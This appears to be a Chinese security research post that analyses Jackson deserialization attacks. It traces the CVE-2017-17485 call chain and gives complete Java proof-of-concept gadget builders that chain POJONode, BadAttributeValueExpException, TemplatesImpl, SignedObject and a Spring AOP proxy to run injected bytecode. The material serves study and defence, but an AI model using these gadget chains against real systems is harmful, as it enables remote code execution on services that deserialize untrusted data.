



看不动了，太多了😂，而且很多重复的部分，最后几个调用栈，一句话总结一个调用栈

`ConstructorResolver#autowireConstructor`：决定使用`ProcessBuilder(List)`这个构造函数来实例化对象，并开始着手准备该函数所需的参数数据。

`ConstructorResolver#resolveConstructorArguments`：负责遍历在 XML 中写在里的所有参数定义，一个个拿出来准备进行解析。

`BeanDefinitionValueResolver#resolveValueIfNecessary` (第一次)：它拿到参数后，发现这个参数不是普通字符串，而是一个集合（ManagedList），于是决定把它转交给专门处理集合的方法去处理。

`BeanDefinitionValueResolver#resolveManagedList`：创建了一个新的 ArrayList，然后开始遍历 XML 列表里的每一个元素（如 "open", "-a", "Calculator"），准备逐个解析它们。

`BeanDefinitionValueResolver#resolveValueIfNecessary` (第二次)：针对 List 里的每一个具体元素，它再次启动解析流程，确认这个元素本身需不需要处理。

`BeanDefinitionValueResolver#evaluate`：它负责检查当前字符串值里有没有包含`#{`前缀，它的逻辑是：“这到底是一段普通文本，还是一段需要运行的代码（SpEL）？”

`BeanDefinitionValueResolver#doEvaluate`：一旦确认需要进行计算，它将任务委托给 Bean 工厂底层的求值逻辑。

`AbstractBeanFactory#evaluateBeanDefinitionString`：它负责获取容器配置好的标准表达式解析器（ExpressionResolver），并建立计算所需的上下文环境。

`StandardBeanExpressionResolver.evaluate`：它调用 SpEL 引擎去解析和运行字符串里的内容（`expr = this.expressionParser.parseExpression(value, this.beanExpressionParserContext);`），然后再执行

调用栈如下

```java
at org.springframework.context.expression.StandardBeanExpressionResolver.evaluate(StandardBeanExpressionResolver.java:161)
at org.springframework.beans.factory.support.AbstractBeanFactory.evaluateBeanDefinitionString(AbstractBeanFactory.java:1365)
at org.springframework.beans.factory.support.BeanDefinitionValueResolver.doEvaluate(BeanDefinitionValueResolver.java:255)
at org.springframework.beans.factory.support.BeanDefinitionValueResolver.evaluate(BeanDefinitionValueResolver.java:214)
at org.springframework.beans.factory.support.BeanDefinitionValueResolver.resolveValueIfNecessary(BeanDefinitionValueResolver.java:186)
at org.springframework.beans.factory.support.BeanDefinitionValueResolver.resolveManagedList(BeanDefinitionValueResolver.java:382)
at org.springframework.beans.factory.support.BeanDefinitionValueResolver.resolveValueIfNecessary(BeanDefinitionValueResolver.java:157)
at org.springframework.beans.factory.support.ConstructorResolver.resolveConstructorArguments(ConstructorResolver.java:648)
at org.springframework.beans.factory.support.ConstructorResolver.autowireConstructor(ConstructorResolver.java:140)
at org.springframework.beans.factory.support.AbstractAutowireCapableBeanFactory.autowireConstructor(AbstractAutowireCapableBeanFactory.java:1131)
at org.springframework.beans.factory.support.AbstractAutowireCapableBeanFactory.createBeanInstance(AbstractAutowireCapableBeanFactory.java:1034)
at org.springframework.beans.factory.support.AbstractAutowireCapableBeanFactory.doCreateBean(AbstractAutowireCapableBeanFactory.java:504)
at org.springframework.beans.factory.support.AbstractAutowireCapableBeanFactory.createBean(AbstractAutowireCapableBeanFactory.java:476)
at org.springframework.beans.factory.support.AbstractBeanFactory$1.getObject(AbstractBeanFactory.java:303)
at org.springframework.beans.factory.support.DefaultSingletonBeanRegistry.getSingleton(DefaultSingletonBeanRegistry.java:230)
at org.springframework.beans.factory.support.AbstractBeanFactory.doGetBean(AbstractBeanFactory.java:299)
at org.springframework.beans.factory.support.AbstractBeanFactory.getBean(AbstractBeanFactory.java:194)
at org.springframework.beans.factory.support.DefaultListableBeanFactory.preInstantiateSingletons(DefaultListableBeanFactory.java:762)
at org.springframework.context.support.AbstractApplicationContext.finishBeanFactoryInitialization(AbstractApplicationContext.java:757)
at org.springframework.context.support.AbstractApplicationContext.refresh(AbstractApplicationContext.java:480)
at org.springframework.context.support.ClassPathXmlApplicationContext.<init>(ClassPathXmlApplicationContext.java:139)
at org.springframework.context.support.ClassPathXmlApplicationContext.<init>(ClassPathXmlApplicationContext.java:83)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:57)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:525)
at com.fasterxml.jackson.databind.introspect.AnnotatedConstructor.call1(AnnotatedConstructor.java:129)
at com.fasterxml.jackson.databind.deser.std.StdValueInstantiator.createFromString(StdValueInstantiator.java:299)
at com.fasterxml.jackson.databind.deser.BeanDeserializerBase.deserializeFromString(BeanDeserializerBase.java:1204)
at com.fasterxml.jackson.databind.deser.BeanDeserializer._deserializeOther(BeanDeserializer.java:144)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:135)
at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer._deserialize(AsArrayTypeDeserializer.java:110)
at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer.deserializeTypedFromAny(AsArrayTypeDeserializer.java:68)
at com.fasterxml.jackson.databind.deser.std.UntypedObjectDeserializer$Vanilla.deserializeWithType(UntypedObjectDeserializer.java:554)
at com.fasterxml.jackson.databind.deser.impl.TypeWrappedDeserializer.deserialize(TypeWrappedDeserializer.java:63)
at com.fasterxml.jackson.databind.ObjectMapper._readMapAndClose(ObjectMapper.java:3807)
at com.fasterxml.jackson.databind.ObjectMapper.readValue(ObjectMapper.java:2797)
at org.cve.CVE201717485.main(CVE201717485.java:13)
```

还有两个不是RCE的，所以我就不想去看了，师傅们有兴趣自己复现

## gadget

主要利用 POJONode，但是他有着这样的继承链，



而在`BaseJsonNode`中存在

```java
Object writeReplace() {
        return NodeSerialization.from(this);
    }
```

所以我们需要把这个方法 hook 掉，接着看到它的 toString 方法

```java
public String toString() {
        return InternalNodeMapper.nodeToString(this);
    }
```

跟进 nodeToString

```java
public static String nodeToString(JsonNode n) {
    try {
        return STD_WRITER.writeValueAsString(n);
    } catch (IOException e) {
        throw new RuntimeException(e);
    }
}
```

发现会触发 writeValueAsString，这是 Jackson 序列化入口，可以触发任意 getter 方法。

### TemplatesImpl链

使用 BadAttributeValueExpException 来触发 toString 就是一条完整的 gadget。

```java
package org.gadget;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class templatesImplPoc {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.get(org.gadget.Evil.class.getName());
        byte[] bytecodes = ctClass.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setField(templates, "_bytecodes", new byte[][]{bytecodes});
        setField(templates, "_name", "pwnd");
        setField(templates, "_tfactory", new TransformerFactoryImpl());

        CtClass nodeClass = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = nodeClass.getDeclaredMethod("writeReplace");
        nodeClass.removeMethod(writeReplace);
        nodeClass.toClass();

        POJONode jsonNode = new POJONode(templates);
        BadAttributeValueExpException exception = new BadAttributeValueExpException(null);
        setField(exception, "val", jsonNode);


        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(exception);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    private static void setField(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

调用栈如下

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:689)
at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
at com.fasterxml.jackson.databind.ser.BeanSerializer.serialize(BeanSerializer.java:178)
at com.fasterxml.jackson.databind.SerializerProvider.defaultSerializeValue(SerializerProvider.java:1142)
at com.fasterxml.jackson.databind.node.POJONode.serialize(POJONode.java:115)
at com.fasterxml.jackson.databind.ser.std.SerializableSerializer.serialize(SerializableSerializer.java:39)
at com.fasterxml.jackson.databind.ser.std.SerializableSerializer.serialize(SerializableSerializer.java:20)
at com.fasterxml.jackson.databind.ser.DefaultSerializerProvider._serialize(DefaultSerializerProvider.java:480)
at com.fasterxml.jackson.databind.ser.DefaultSerializerProvider.serializeValue(DefaultSerializerProvider.java:319)
at com.fasterxml.jackson.databind.ObjectWriter$Prefetch.serialize(ObjectWriter.java:1518)
at com.fasterxml.jackson.databind.ObjectWriter._writeValueAndClose(ObjectWriter.java:1219)
at com.fasterxml.jackson.databind.ObjectWriter.writeValueAsString(ObjectWriter.java:1086)
at com.fasterxml.jackson.databind.node.InternalNodeMapper.nodeToString(InternalNodeMapper.java:30)
at com.fasterxml.jackson.databind.node.BaseJsonNode.toString(BaseJsonNode.java:136)
at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.gadget.templatesImplPoc.main(templatesImplPoc.java:45)
```

### SignObject#getObject

可以触发任意 getter，懂的都懂

```java
package org.gadget;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;

public class JacksonSignedObjectPoC {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.get(org.gadget.Evil.class.getName());
        byte[] bytecodes = evilClass.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setField(templates, "_bytecodes", new byte[][]{bytecodes});
        setField(templates, "_name", "pwnd");
        setField(templates, "_tfactory", new TransformerFactoryImpl());

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(templates, kp.getPrivate(), Signature.getInstance("DSA"));

        CtClass nodeClass = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = nodeClass.getDeclaredMethod("writeReplace");
        nodeClass.removeMethod(writeReplace);
        nodeClass.toClass();

        POJONode jsonNode = new POJONode(signedObject);

        BadAttributeValueExpException exception = new BadAttributeValueExpException(null);
        setField(exception, "val", jsonNode);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(exception);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    private static void setField(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

调用栈如下

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:689)
at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
at com.fasterxml.jackson.databind.ser.BeanSerializer.serialize(BeanSerializer.java:178)
at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:728)
at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
at com.fasterxml.jackson.databind.ser.BeanSerializer.serialize(BeanSerializer.java:178)
at com.fasterxml.jackson.databind.SerializerProvider.defaultSerializeValue(SerializerProvider.java:1142)
at com.fasterxml.jackson.databind.node.POJONode.serialize(POJONode.java:115)
at com.fasterxml.jackson.databind.ser.std.SerializableSerializer.serialize(SerializableSerializer.java:39)
at com.fasterxml.jackson.databind.ser.std.SerializableSerializer.serialize(SerializableSerializer.java:20)
at com.fasterxml.jackson.databind.ser.DefaultSerializerProvider._serialize(DefaultSerializerProvider.java:480)
at com.fasterxml.jackson.databind.ser.DefaultSerializerProvider.serializeValue(DefaultSerializerProvider.java:319)
at com.fasterxml.jackson.databind.ObjectWriter$Prefetch.serialize(ObjectWriter.java:1518)
at com.fasterxml.jackson.databind.ObjectWriter._writeValueAndClose(ObjectWriter.java:1219)
at com.fasterxml.jackson.databind.ObjectWriter.writeValueAsString(ObjectWriter.java:1086)
at com.fasterxml.jackson.databind.node.InternalNodeMapper.nodeToString(InternalNodeMapper.java:30)
at com.fasterxml.jackson.databind.node.BaseJsonNode.toString(BaseJsonNode.java:136)
at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.gadget.JacksonSignedObjectPoC.main(JacksonSignedObjectPoC.java:51)
```

纳尼？为什么没有出现 SignObject 的调用栈，查看报错，

```java
Caused by: java.lang.NullPointerException
	at com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet.postInitialization(AbstractTranslet.java:372)
	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:456)
	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:497)
	at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:689)
	at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
	... 26 more
```

这个报错是因为 Jackson 在序列化 TemplatesImpl 时，通过反射获取并调用了所有的 Getter 方法。 除了我们想要的`getOutputProperties()`，Jackson 还可能调用了`getStylesheetDOM()`、`getTransletIndex()`等其他 getter 方法，如果这些方法的执行顺序不对，或者依赖的内部字段（如 `_tfactory`）为空，就会导致 NPE(NullPointerException) 错误，但是问题代码在哪里呢？我们观察上面的调用栈发现有两个`BeanSerializerBase#serializeFields`，

```java
protected void serializeFields(Object bean, JsonGenerator gen, SerializerProvider provider) throws IOException {
    BeanPropertyWriter[] props;
    if (this._filteredProps != null && provider.getActiveView() != null) {
        props = this._filteredProps;
    } else {
        props = this._props;
    }

    int i = 0;

    try {
        for(int len = props.length; i < len; ++i) {
            BeanPropertyWriter prop = props[i];
            if (prop != null) {
                prop.serializeAsField(bean, gen, provider);
            }
        }

        if (this._anyGetterWriter != null) {
            this._anyGetterWriter.getAndSerialize(bean, gen, provider);
        }
    } catch (Exception e) {
        String name = i == props.length ? "[anySetter]" : props[i].getName();
        this.wrapAndThrow(provider, e, bean, name);
    } catch (StackOverflowError e) {
        DatabindException mapE = new JsonMappingException(gen, "Infinite recursion (StackOverflowError)", e);
        String name = i == props.length ? "[anySetter]" : props[i].getName();
        mapE.prependPath(bean, name);
        throw mapE;
    }

}
```

这个方法的核心就是遍历调用每个方法，触发 getter 方法。解决方案就是使用 JDK 动态代理

写出 poc

```java
package org.gadget;


import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;

public class poc {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.get(org.gadget.Evil.class.getName());
        byte[] bytecodes = evilClass.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setField(templates, "_bytecodes", new byte[][]{bytecodes});
        setField(templates, "_name", "pwnd");
        setField(templates, "_tfactory", new TransformerFactoryImpl());

        Object proxyTemplates = getPOJONodeStableProxy(templates);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) proxyTemplates, kp.getPrivate(), Signature.getInstance("DSA"));

        CtClass nodeClass = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = nodeClass.getDeclaredMethod("writeReplace");
        nodeClass.removeMethod(writeReplace);
        nodeClass.toClass();

        POJONode jsonNode = new POJONode(signedObject);
        BadAttributeValueExpException exception = new BadAttributeValueExpException(null);
        setField(exception, "val", jsonNode);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(exception);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    public static Object getPOJONodeStableProxy(Object templatesImpl) throws Exception {
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);

        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);

        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);

        Object proxyObj = Proxy.newProxyInstance(
                clazz.getClassLoader(),
                new Class[]{Templates.class, Serializable.class},
                handler
        );
        return proxyObj;
    }

    private static void setField(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

调用栈如下

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at org.springframework.aop.support.AopUtils.invokeJoinpointUsingReflection(AopUtils.java:344)
at org.springframework.aop.framework.JdkDynamicAopProxy.invoke(JdkDynamicAopProxy.java:208)
at com.sun.proxy.$Proxy0.getOutputProperties(Unknown Source:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:689)
at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
at com.fasterxml.jackson.databind.ser.BeanSerializer.serialize(BeanSerializer.java:178)
at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:728)
at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
at com.fasterxml.jackson.databind.ser.BeanSerializer.serialize(BeanSerializer.java:178)
at com.fasterxml.jackson.databind.SerializerProvider.defaultSerializeValue(SerializerProvider.java:1142)
at com.fasterxml.jackson.databind.node.POJONode.serialize(POJONode.java:115)
at com.fasterxml.jackson.databind.ser.std.SerializableSerializer.serialize(SerializableSerializer.java:39)
at com.fasterxml.jackson.databind.ser.std.SerializableSerializer.serialize(SerializableSerializer.java:20)
at com.fasterxml.jackson.databind.ser.DefaultSerializerProvider._serialize(DefaultSerializerProvider.java:480)
at com.fasterxml.jackson.databind.ser.DefaultSerializerProvider.serializeValue(DefaultSerializerProvider.java:319)
at com.fasterxml.jackson.databind.ObjectWriter$Prefetch.serialize(ObjectWriter.java:1518)
at com.fasterxml.jackson.databind.ObjectWriter._writeValueAndClose(ObjectWriter.java:1219)
at com.fasterxml.jackson.databind.ObjectWriter.writeValueAsString(ObjectWriter.java:1086)
at com.fasterxml.jackson.databind.node.InternalNodeMapper.nodeToString(InternalNodeMapper.java:30)
at com.fasterxml.jackson.databind.node.BaseJsonNode.toString(BaseJsonNode.java:136)
at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.gadget.JacksonSignedObjectPoC.main(JacksonSignedObjectPoC.java:87)
```

虽然还是没有 signObject 的调用栈，但是有报错

```java
 (was java.lang.NullPointerException) (through reference chain: java.security.SignedObject["object"]->com.sun.proxy.$Proxy0["outputProperties"])
```

所以是成功解决了这个问题的

> https://xz.aliyun.com/news/12292
>
> https://www.cnblogs.com/LittleHann/p/17811918.html
>
> https://xz.aliyun.com/news/12412
